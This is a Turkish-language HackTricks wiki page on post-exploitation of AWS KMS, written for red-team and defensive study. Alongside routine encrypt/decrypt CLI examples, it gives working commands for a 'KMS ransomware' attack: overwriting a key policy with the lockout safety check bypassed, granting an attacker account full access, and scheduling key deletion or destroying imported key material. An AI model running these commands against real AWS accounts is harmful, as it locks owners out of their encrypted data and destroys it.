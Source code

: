 # AWS - KMS Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## KMS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Bilgi Şifreleme/Şifre Çözme

* **Sembolik** bir anahtar kullanarak
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **Asimetrik** bir anahtar kullanma:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Kms decrypt işlemi yaparken 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' hatası alıyorsanız, **`fileb://`** yerine **`--ciphertext-blob file://`** kullanmayı deneyin.

**`file://`** kullanımı, CLI kullanırken tercih ettiğiniz kodlamada yazılmış dosyaları kullanma kolaylığı sağlar.
CLI'nin 1.6.3 ve daha yüksek sürümlerinde, dosya içeriğini CLI'ye iletmenin başka bir yolu olan **`fileb://`** erişiminiz vardır. **`file://`** gibi çalışır, ancak dosya içeriğini metin olarak okumak yerine, ikili olarak okur.

Çoğu durumda, **`file://`** dosya içeriğini girdi olarak iletme ihtiyacınızı karşılayacaktır. Ancak, bazı durumlarda dosya içeriğini metin yerine ikili olarak iletmek için **`fileb://`** kullanılması gerekir.
AWS'den daha fazla bilgi edinin: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Fidye Yazılımı

KMS üzerinde ayrıcalıklı erişime sahip bir saldırgan, anahtarların KMS politikasını değiştirebilir ve **hesabına erişim izni verebilir**, meşru hesabın erişimini kaldırabilir.

Daha sonra, meşru hesap kullanıcıları, bu anahtarlarla şifrelenmiş herhangi bir hizmetin bilgilerine erişemez, bu da hesap üzerinde kolay ama etkili bir fidye yazılımı oluşturur.

{% hint style="warning" %}
**AWS yönetilen anahtarlarının** bu saldırıdan etkilenmediğini, yalnızca **Müşteri yönetilen anahtarlarının** etkilendiğini unutmayın.

Ayrıca, **`--bypass-policy-lockout-safety-check`** parametresini kullanma gerekliliğini unutmayın (web konsolunda bu seçeneğin olmaması, bu saldırının yalnızca CLI'dan mümkün olmasını sağlar).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Dış hesaba erişim izni verip, ardından bu dış hesaptan yeni bir politika belirleyerek **orijinal hesaba erişimi geri vermeye çalışırsanız, bunu yapamazsınız**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Genel KMS Fidye Yazılımı

#### Global KMS Fidye Yazılımı

Global KMS Fidye Yazılımı gerçekleştirmek için başka bir yol daha vardır ve bu adımları içerir:

* Saldırgan tarafından ithal edilen **anahtar materyali ile yeni bir anahtar oluşturun**
* Önceki sürümle şifrelenmiş eski verileri **yeni anahtarla yeniden şifreleyin**.
* **KMS anahtarını silin**
* Artık sadece orijinal anahtar materyaline sahip olan saldırgan, şifrelenmiş verileri çözebilir

### Anahtarları yok etme
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS'nin artık **önceki eylemlerin çapraz hesaplardan gerçekleştirilmesini engellediğini** unutmayın:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da bizi **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks ve** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github depolarına PR göndererek hacking ipuçlarını paylaşın.**

</details>
{% endhint %}
